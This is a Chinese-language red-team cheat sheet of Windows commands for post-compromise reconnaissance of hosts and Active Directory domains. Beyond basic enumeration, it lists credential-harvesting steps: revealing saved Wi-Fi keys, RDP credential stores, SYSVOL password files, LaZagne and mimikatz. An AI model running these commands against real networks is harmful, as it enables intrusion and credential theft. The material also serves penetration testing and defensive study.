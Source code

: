 ```yaml
---
category: 网络安全
tag: 红队
---
```


# 2-内网信息收集-windows

<!-- more -->

## 常用信息搜集

- `whoami   # 查看当前用户`
- `net user   # 查看所有用户`
- `query user   # 查看当前在线用户`
- `ipconfig /all   # 查看当前主机的主机名/IP/DNS等信息`
- `route print   # 查看路由表信息`
- `netstat -ano   # 查看端口开放情况`
- `arp -a   # 查看arp解析情况`
- `tasklist /svc   # 查看进程及对应服务名`
- `net localgroup administrators   # 查看管理员组成员`
- `systeminfo   # 查看系统信息含补丁信息`
- `net use   # 查看ipc连接情况`
- `net view   # 查看匿名共享情况`
- `netsh firewall show state   # 查看防火墙状态`
- `cmdkey /l   # 查看当前保存的登陆凭证=`
- `net view  ip 知道ip查看计算机名`
- `nbtstat -a ip  知道ip查看计算机名`
- `ping name  知道计算机名查看ip`
- `nbtstat -a name 知道计算机名查看ip`

## 密码搜集

- `netsh wlan show profiles   # 查看连接过的wifi名称`

- `netsh wlan show profile name="wifi名称" key=clear   # 查看wifi的密码`

- `dir /a %userprofile%\AppData\Local\Microsoft\Credentials\*   # 查看RDP连接凭证`

- `dir /a /s /b "网站目录\\\*config\*" > 1.txt   # 数据库配置文件`

- `laZagne.exe all -oN   # 本地wifi/浏览器等密码`

- `dir %APPDATA%\Microsoft\Windows\Recent   # 查看最近打开的文档`

## 连通性

- `ping www.baidu.com   # ICMP连通性`

- `nslookup www.baidu.com   # DNS连通性`

- `curl https://www.baidu.com   # http连通性`

- `nc ip port   # TCP连通性`

# 域信息搜集

## 常用信息搜集

- `net config workstation   #查看当前登录域`

- `net user /domain   # 获得所有域用户列表`

- `net view /domain   # 查看所有的域`

- `net view /domain:XXX   # 查看该域内所有主机`

- `net group /domain   # 查看所有域用户组列表`

- `net group "domain computers" /domain   # 查看域内所有的主机名`

- ` net group "domain admins" /domain   # 查看所有域管理员`

- `net group "domain controllers" /domain   # 查看所有域控制器`

- `net group "enterprise admins" /domain   # 查看所有企业管理员`

- `nltest /domain_trusts   # 获取域信任信息`

- `net time /domain   # 查看当前登录域`

- `net accounts /domain   # 查看域密码策略`

- `dsquery server   # 寻找目录中的域控制器`

- `netdom query pdc   # 查看域控制器主机名`

- `wmic useraccount get /all   #获取域内用户的详细信息`

## 环境信息搜集

- `nbtscan.exe xx.xx.xx.xx/24   # 查看c段机器
`
- `csvde.exe -f 1.csv -k   # 批量导入/导出AD用户`

- `setspn.exe -T xx.xx.xx.xx -Q */*   # 查看当前域内所有spn`

## 密码搜集

- `dir /s /a \\域控IP\SYSVOL\*.xml   # 获取域里面所有机子的本地管理员账号密码`
- `mimikatz抓密码
`
